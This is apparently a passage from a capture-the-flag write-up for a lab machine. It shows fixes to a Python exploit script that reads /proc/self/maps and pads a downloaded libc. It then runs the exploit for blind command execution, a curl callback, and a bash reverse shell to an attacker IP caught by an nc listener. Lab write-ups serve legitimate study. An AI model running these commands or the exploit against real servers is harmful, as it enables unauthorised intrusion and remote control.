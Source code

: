 
### ✅ Fix LIBC Download Padding

```python
def download_file(self, remote_path: str, local_path: str) -> None:
    """Downloads remote file and appends null bytes."""
    data = self.get_file(remote_path) + b"\x00" * 6
    Path(local_path).write_bytes(data)
```

---

### ✅ Fix `get_regions()` for Decoding Issues

```python
def get_regions(self) -> list[Region]:
    """Obtains memory regions by reading /proc/self/maps."""
    maps = self.get_file("/proc/self/maps")
    maps = '\n'.join(maps.decode(errors='ignore').split('\n')[:-1])
    PATTERN = re.compile(
        r"^([a-f0-9]+)-([a-f0-9]+)\b.*\s([-rwx]{3}[ps])\s(.*)"
    )
    # Parsing logic continues...
```

---

## 🚀 Exploit Results

✔ Data and `php://filter/` wrappers work
✔ Zlib extension is enabled
✔ Heaps detected

### Blind Exploit Test

```bash
uv run exploit.py http://blog.bigbang.htb id
# Success, no output (blind)

uv run exploit.py http://blog.bigbang.htb 'curl http://10.10.14.6/owned'
# HTTP request detected by attacker webserver

uv run exploit.py http://blog.bigbang.htb 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
# Reverse shell connected
```

---

## ✅ Post-Exploit Shell Access

### 🎯 Initial Shell Connection

```bash
nc -lnvp 443
# Connection received from 10.10.11.52
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bf9a078a3627:/var/www/html/wordpress/wp-admin$
```

---
